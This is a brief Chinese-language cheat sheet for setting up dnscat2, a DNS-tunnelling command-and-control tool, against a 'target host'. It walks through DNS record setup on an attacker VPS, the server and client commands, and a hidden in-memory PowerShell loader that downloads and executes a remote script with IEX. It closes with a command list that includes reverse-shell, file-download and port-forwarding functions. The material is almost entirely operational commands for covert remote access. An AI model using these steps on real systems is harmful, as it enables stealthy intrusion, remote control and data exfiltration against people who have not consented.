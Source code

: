 ```
https://github.com/iagox86/dnscat2
```

-  部署域名解析

```
创建A记录
域名A记录指向vps服务器

创建ns记录（设置子域名dns服务器的）
dnsch子域名解析结果指向域名
```

- 安装dnscat2服务端

```
sudo ruby ./dnscat2.rb vpn.xxx.com -e open -c syst1m.com --no-cache

sudo ruby ./dnscat2.rb --dns server=127.0.0.1,port=533.type=txt --secret=syst1m.com
```

- 目标主机安装客户端

```
make install 编译

dnscat.exe --ping vpn.xxx.com 测试连通性

dnscat.exe --dns domain=vpn. --secret syst1m.com

dnscat --dns server=ip,port=53,type=txt --secret=syst1m.com
```

- powershell版本

```
https://github.com/lukebaggett/dnscat2-powershell

IMport-Moudle .\dnscat2.ps1或者IEX(New-Object System.Net.Webclient).DownloadString('')

开启dnscat2-powershell服务
start-Dnscat2 -Domain vpn.xxx.com --DNSServer 1.x.x.x

IEX加载脚本方式（内存中打开dnscat客户端）
powershell.exe -nop -w hidden -c (IEX(New-Object System.Net.Webclient).DownloadString(''),start-Dnscat2 -Domain vpn.xxx.com --DNSServer 1.x.x.x)
```

- 参数

```
exec 打开程序
download 下载文件
help 帮助
clear清屏
delay 修改远程响应延时
shell 得到一个反弹shell
kill 切断通道
listen 类似ssh -l参数 listen 0.0.0.0:53 192.168.1.1 3389
ping 用于确认机器是否在线
windows -i 连接某个通道
```
